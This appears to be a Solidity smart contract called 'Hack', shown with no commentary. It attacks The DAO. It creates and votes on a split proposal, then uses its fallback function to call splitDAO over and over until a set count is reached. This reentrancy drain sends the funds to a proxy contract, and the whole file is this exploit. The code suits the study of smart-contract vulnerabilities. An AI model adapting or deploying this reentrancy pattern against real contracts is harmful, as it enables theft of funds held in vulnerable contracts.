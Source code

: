```javascript

contract Hack {
  uint public proposalID;
  DAOInterface public DAO;
  uint public calls_to_make;
  uint public calls;
  Proxy public proxy;

  function Hack(address _dao) {
    DAO = DAOInterface(_dao);
    calls = 0;
    proxy = new Proxy(_dao);
    calls_to_make = 1;
  }

  function makeSplitProposal() {
    // 0x93a80 == 604800 == 1 week in seconds
    bytes memory transactionData;
    proposalID = DAO.newProposal(this, 0x0, "Lonely, so Lonely", transactionData, 0x93a80, true);
  }

  function voteYesOnProposal() {
    DAO.vote(proposalID, true);
  }

  function fillProxy() {
    uint balance = DAO.balanceOf(this);
    DAO.transfer(address(proxy), balance);
  }

  function splitDAO() {
    calls += 1;
    DAO.splitDAO(proposalID, this);
  }

  function runHack(uint _calls_to_make) {
    calls = 0;
    calls_to_make = _calls_to_make;
    proxy.empty();
    splitDAO();
  }

  function() {
    if (calls < calls_to_make) {
      splitDAO();
    } else {
      fillProxy();
    }
  }
}
```
